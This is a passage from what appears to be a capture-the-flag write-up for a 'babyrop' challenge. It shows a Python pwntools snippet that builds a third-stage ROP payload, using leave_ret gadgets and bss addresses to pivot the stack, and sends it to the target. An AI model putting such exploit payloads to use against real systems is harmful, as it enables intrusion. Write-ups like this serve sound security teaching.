 ![f248a65d7973c4659e87fceb253f7db1.png](/assets/images/SmileyCTF-babyrop/f248a65d7973c4659e87fceb253f7db1.png)


### The magic

Here's where the magic happens: the **CEM (third) payload**. This carefully crafted payload is responsible for managing the execution flow.

```python
payload  = p64(bss + 0x20)   # 0x404038
payload += p64(leave_ret)    # 0x404040
payload += b'C' * 0x10       # 0x404048 - 0x404050
payload += p64(bss)          # 0x404058
payload += p64(leave_ret)    # 0x404060

input("Payload 3")
io.sendline(payload)

io.recvline()
```


#### What exactly happens here ?

